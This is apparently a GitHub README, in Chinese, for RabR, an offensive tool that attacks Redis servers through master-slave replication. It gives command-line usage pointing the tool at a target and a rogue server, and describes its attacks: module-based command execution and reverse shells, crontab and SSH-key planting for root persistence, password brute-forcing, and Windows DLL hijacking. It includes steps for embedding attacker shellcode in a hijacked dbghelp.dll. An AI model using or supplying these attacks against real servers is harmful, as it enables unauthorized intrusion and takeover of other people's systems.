



# RabR 

Redis-Attack By Replication (通过主从复制攻击Redis)   

- 攻击Linux下的Redis，可执行命令和反弹shell
- 攻击Window x64下的Redis，可执行命令 

本工具基于**Ridter**师傅的[**redis-rce**](https://github.com/Ridter/redis-rce) 进行修改。  

## 声明
本工具仅用于个人安全研究学习。由于传播、利用本工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，工具作者不为此承担任何责任。

## 原理
Redis从2.8开始，就支持主从复制功能。     

这个功能存在脆弱的地方：主从复制中，Redis从机会将Redis主机的数据库文件同步到本地的数据库文件，并检验其是否为RDP格式，但如果不是RDP格式也不会删除。   
所以我们只要将主从复制传输中的数据库文件，替换为我们自己的数据，就可以将我们自己的数据原封不动的写入到Redis从机的数据库文件中，而这个数据库文件的名字也可以通过Redis从机进行修改。  
**这就意味着我们可以将任意文件写入到目标Redis权限下的任意路径**。    

## 特点
- 本工具利用这个Redis的脆弱性，对Linux下的Redis进行module攻击、crontab写入攻击和ssh公钥写入攻击，对Windows下的Redis进行module攻击和dll劫持攻击。  
- 本工具默认使用的Linux恶意模块：exp/linux/exp.so，源码来自于：[**RedisModules-ExecuteCommand** ](https://github.com/puckiestyle/RedisModules-ExecuteCommand ), 该模块实现了执行单条命令和反弹shell的功能，你也可以编写自己的模块。    
- 本工具默认使用的crontab文件：exp/linux/exp.crontab，到使用前务必根据自己实际的需求进行修改，或者直接通过命令行设置自己的crontab文件。  
- 本工具默认使用的ssh公钥文件：exp/linux/exp.authorized_keys，使用前务必自己重新生成以替换，或者直接通过命令行设置自己的ssh公钥文件。  
- 本工具默认使用的Windows恶意模块：exp/win/exp.dll，源码来自于：[**RedisModules-ExecuteCommand-for-Windows** ](https://github.com/0671/RedisModules-ExecuteCommand-for-Windows ), 该模块实现了执行命令的功能，你也可以编写自己的模块。  
- 本工具默认使用的用于劫持的恶意dll：exp/win/exp.dll，是通过 [**DLLHijacker** ](https://github.com/kiwings/DLLHijacker )+ **Winx64下的dbghelp.dll**编译生成的，该dll会执行calc，你也可以编译自己的dbghelp.dll。  
- 本工具有爆破功能，默认密码字典位于pwd.txt中，也可自定义字典文件。  
- 本工具在攻击前会备份目标Redis的数据，在攻击结束后会进行恢复，使用的工具为[**redis-dump-go**](https://github.com/yannh/redis-dump-go )。默认是开启的，可以关闭。  

## 结构
```  
│  redis-attack.py 攻击主程序
│  pwd.txt 爆破字典
├─exp
│  ├─linux
│  │      exp.authorized_keys 默认写入的Linux下的ssh公钥文件，用前需要修改
│  │      exp.crontab 默认写入的Linux下的crontab定时任务文件，用前需要修改
│  │      exp.so 默认导入的Linux Redis模块
│  └─win
│          dbghelp.dll 默认用于劫持Redis的dll
│          exp.dll 默认导入的Windows Redis模块
└─util 有用的程序（用于保存Redis数据） 
```

## 用法   
运行环境：python3
```
usage: python redis-attack.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-wf WINFILE] [-wf WINFILE2] [-lf LINUXFILE] [-lf2 LINUXFILE2] [-lf3 LINUXFILE3] [-a AUTH] [--brute] [-v]
Example:
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 --brute
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -P 80 -b mypwd.txt -i
    python redis-attack.py -r 192.168.1.234 -L 192.168.1.2 -lf3 id_rsa

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 16379
  -wf WINFILE, --winfile WINFILE
                        Dll Used to hijack redis, default exp/win/dbghelp.dll
  -wf2 WINFILE2, --winfile2 WINFILE2
                        RedisModules(win) to load, default exp/win/exp.dll
  -lf LINUXFILE, --linuxfile LINUXFILE
                        RedisModules(linux) to load, default exp/linux/exp.so
  -lf2 LINUXFILE2, --linuxfile2 LINUXFILE2
                        Crontab file used to attack linux(/var/spool/cron/root), default exp/linux/exp.crontab(must be
                        modified before use)
  -lf3 LINUXFILE3, --linuxfile3 LINUXFILE3
                        SSH id_rsa.pub file used to attack linux(/root/.ssh/authorized_keys), use `ssh-keygen -t rsa`
                        to generate, default exp/linux/exp.authorized_keys(empty file, must be modified before use)
  -a AUTH, --auth AUTH  redis password
  -b [BRUTE], --brute [BRUTE]
                        If redis needs to verify the password, perform a brute force attack, dict default pwd.txt
  -i, --idontcare       don't care about the data on the target redis
  -v, --verbose         show more info
```





## 进一步  
劫持Windows x64下的dbghelp.dll的具体方法：  
1）[DLLHijacker](https://github.com/kiwings/DLLHijacker) +目标Redis的系统版本的dbghelp.dll， 生成vs项目。  
2）vs项目修改：   
```
1、将dllmain.c中 shellcode_calc[] 的值替换为cs生成的shellcode   
2、为了避免只能劫持1次dll，在dllmain.cpp的 Hijack();后增加 FreeLibrary(hModule);  
3、修改活动解决方案为Realease，x64  
4、修改项目属性的sdk版本、平台工具集为本地vs可用的值  
```
3）编译生成恶意dbghelp.dll，复制到本工具目录下。    
4）使用本工具执行攻击。  

## 时间线  
```  
2021.07.03 发布v0.5  
2021.07.08 发布v0.6,增加了Windows模块攻击  
2021.07.08 发布v0.6.3,增加了针对Linux的crontab写入攻击、ssh公钥写入攻击  
```


## 感谢  
本工具基于大量优秀文章和工具才得以编写完成，非常感谢这些无私的分享者！！非常感谢某群大佬分享的关键词(很重要)！！非常感谢！！  
帮助到我的文章与工具包括但不限于：  
 [Redis on Windows 出网利用探索](https://xz.aliyun.com/t/8153)  
 [Redis On Windows -- Dll Hijack](https://jkme.github.io/redis-on-windows-dll-hijack.html)  
 [DLLHijacker](https://github.com/kiwings/DLLHijacker)  
 [redis-rce](https://github.com/Ridter/redis-rce)  
 [RedisWriteFile](https://github.com/r35tart/RedisWriteFile)  
 [redis-dump-go](https://github.com/yannh/redis-dump-go)  
 [浅析Linux下Redis的攻击面(一)](https://xz.aliyun.com/t/7974)  

## 反馈  
Mail：h.vi@qq.com   
或者[issue](https://github.com/0671/RabR/issues/new)、PR    